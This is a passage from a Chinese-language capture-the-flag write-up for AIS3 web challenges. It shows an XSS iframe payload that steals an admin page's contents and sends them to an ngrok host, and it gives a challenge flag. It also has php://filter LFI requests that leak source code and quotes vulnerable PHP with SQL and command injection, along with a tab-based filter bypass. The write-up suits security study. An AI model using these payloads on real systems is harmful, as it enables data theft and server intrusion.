這裡可以發現`Referer`來找到管理員從哪裡連到該頁面 ，可以知道要採用`http://xss-me/getflag`作為 iframe 的目標才成正常顯示，~~並且被 `Referer: http://xss-me/` 搞很久 = =~~

``` html
<iframe src="http://xss-me/getflag" id="aa" onload="location.href ='http://b4e94e2c9290.ngrok.io/'.concat('b2/').concat(btoa(document.getElementById('aa').contentDocument.body.innerHTML))"
  ></iframe>
```

```
AIS3{XSS_K!NG}
```

## Web Challenges Monitor (solved)

可以驗證類似路徑是否會有 LFI 的問題

http://quiz.ais3.org:8001/?module=./modules/api/../api

可以確定網頁為 php 

http://quiz.ais3.org:8001/index.php

而這裡可能發生了無窮 include，可以知道 module 後面會自動補上 post fix  `.php`

http://quiz.ais3.org:8001/?module=index

 LFI 可以直接用 filter 把原始碼洩漏出來，或者某些情況可以 include  webshell 進去，這裡先洩漏原始碼。

``` bash
http://quiz.ais3.org:8001/?module=php://FilTer/convert.base64-encode/resource=modules/api
http://quiz.ais3.org:8001/?module=php://FilTer/convert.base64-encode/resource=index
http://quiz.ais3.org:8001/?module=php://FilTer/convert.base64-encode/resource=modules/home
http://quiz.ais3.org:8001/?module=php://FilTer/convert.base64-encode/resource=config
```

可以看到 `index.php` 的確如猜想一樣

``` php
<?php
include ($_GET['module'] ?? "modules/home").".php";
```

而 `modules/home` 似乎沒什麼特別的

`modules/api` 的內容，可以看到 `SQLite3`，並且有可能 command injection ，當中為了繞過空白被去除可以採用`\t` 也就是 `%09`

``` php
<?php
header('Content-Type: application/json');

include "config.php";
$db = new SQLite3(SQLITE_DB_PATH);

if (isset($_GET['id'])) {
    $data = $db->querySingle("SELECT name, host, port FROM challenges WHERE id=${_GET['id']}", true);
    $host = str_replace(' ', '', $data['host']);
    $port = (int) $data['port'];
    $data['alive'] = strstr(shell_exec("timeout 1 nc -vz '$host' $port 2>&1"), "succeeded") !== FALSE;
    echo json_encode($data);
} else {
    $json_resp = [];
    $query_res = $db->query("SELECT * FROM challenges");
    while ($row = $query_res->fetchArray(SQLITE3_ASSOC)) $json_resp[] = $row;
    echo json_encode($json_resp);
}
```
